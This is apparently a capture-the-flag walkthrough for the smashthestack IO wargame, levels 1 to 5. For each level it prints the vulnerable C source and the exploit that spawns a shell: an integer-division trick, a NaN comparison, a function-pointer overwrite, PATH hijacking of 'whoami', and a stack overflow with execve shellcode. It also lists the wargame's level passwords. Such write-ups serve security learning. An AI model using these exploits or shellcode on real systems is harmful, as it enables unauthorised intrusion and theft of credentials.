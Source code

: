 # [smashthestack](http://smashthestack.org/)

## [IO](http://io.smashthestack.org:84/)

### level 1

        # ssh level1@io.smashthestack.org
        password: level1
        
        # cd /levels/
        # gdb level01
        (gdb) disassemble main
        
        Dump of assembler code for function main:
        0x08048080 <+0>:	push   $0x8049128
        0x08048085 <+5>:	call   0x804810f <puts>
        0x0804808a <+10>:	call   0x804809f <fscanf>
        0x0804808f <+15>:	cmp    $0x10f,%eax
        0x08048094 <+20>:	je     0x80480dc <YouWin>
        0x0804809a <+26>:	call   0x8048103 <exit>
        End of assembler dump.
        
        # ./level01
        Enter the 3 digit passcode to enter: 271
        Congrats you found it, now read the password for level2 from /home/level2/.pass
        
### level 2

        # ssh level2@io.smashthestack.org
        password: 3ywr07ZFw5IsdKzU

#### level02
        
        # cat /levels/level02.c
        
        #include <stdio.h>
        #include <stdlib.h>
        #include <signal.h>
        #include <setjmp.h>

        void catcher(int a)
        {
            setresuid(geteuid(),geteuid(),geteuid());
            printf("WIN!\n");
            system("/bin/sh");
            exit(0);
        }

        int main(int argc, char **argv)
        {
            puts("source code is available in level02.c\n");

            if (argc != 3 || !atoi(argv[2]))
                return 1;
            signal(SIGFPE, catcher);
            return abs(atoi(argv[1])) / atoi(argv[2]);
        }

        # /levels/level02 -2147483648 -1
        WIN!

#### level02_alt

        # cat /levels/level02.c

        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>

        #define answer 3.141593

        void main(int argc, char **argv) {
            float a = (argc - 2)?: strtod(argv[1], 0);
            
            printf("You provided the number %f which is too ", a);
            if(a < answer)
                puts("low");
            else if(a > answer)
                puts("high");
            else
                execl("/bin/sh", "sh", "-p", NULL);
        }

        
        # /levels/level02_alt nan
        
### level 3

        # ssh level3@io.smashthestack.org
        password: IFd92yzOnSMv9tkX

        # cat /levels/level03.c
        
        #include <stdio.h>
        #include <string.h>

        void good()
        {
            puts("Win.");
            execl("/bin/sh", "sh", NULL);
        }
        void bad()
        {
            printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
        }

        int main(int argc, char **argv, char **envp)
        {
            void (*functionpointer)(void) = bad;
            char buffer[50];

            if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

            memcpy(buffer, argv[1], strlen(argv[1]));
            memset(buffer, 0, strlen(argv[1]) - 4);

            printf("This is exciting we're going to %p\n", functionpointer);
            functionpointer();

            return 0;
        }
        
        # /levels/level03 something
        
        This is exciting we're going to 0x80484a4
        I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
        
        # /levels/level03 `echo -e "123451234512345123451234512345123451234512345123451234512345123451234512345=\x74"`
        This is exciting we're going to 0x8048474
        Win.

### level 4

        # ssh level4@io.smashthestack.org
        password: nSwmULj2LpDnRGU2

        # cat /levels/level04.c
        
        #include <stdlib.h>
        #include <stdio.h>

        int main() {
            char username[1024];
            FILE* f = popen("whoami","r");
            fgets(username, sizeof(username), f);
            printf("Welcome %s", username);

            return 0;
        }
        
        # /levels/level04
        Welcome level5
        
        # mkdir /tmp/ving_dir
        # echo cat /home/level5/.pass >> /tmp/ving_dir/whoami
        # chmod 777 /tmp/ving_dir/whoami
        # ls -l /tmp/ving_dir
        -rwxrwxrwx 1 level4 level4 23 Nov 24 10:44 whoami
        
        # PATH="/tmp/ving_dir:$PATH"
        # echo $PATH
        /tmp/ving_dir:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
        
        # /levels/level04
        Welcome LOoCy5PbKi63qXTh
        
### level 5

        # ssh level5@io.smashthestack.org
        password: LOoCy5PbKi63qXTh

        # cat /levels/level05.c
        
        #include <stdio.h>
        #include <string.h>

        int main(int argc, char **argv) {
            char buf[128];
            if(argc < 2) return 1;
            strcpy(buf, argv[1]);
            printf("%s\n", buf);
            return 0;
        }
        
        # /levels/level05 `python -c 'print "\x90"*88+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"+"\x90"*26+"\xb0\xfb\xff\xbf"'`
        
        # cat /home/level6/.pass
        rXCikld0ex3EQsnI

### level 6

        # ssh level6@io.smashthestack.org
        password: rXCikld0ex3EQsnI
        
        # cat /levels/level06.c
        
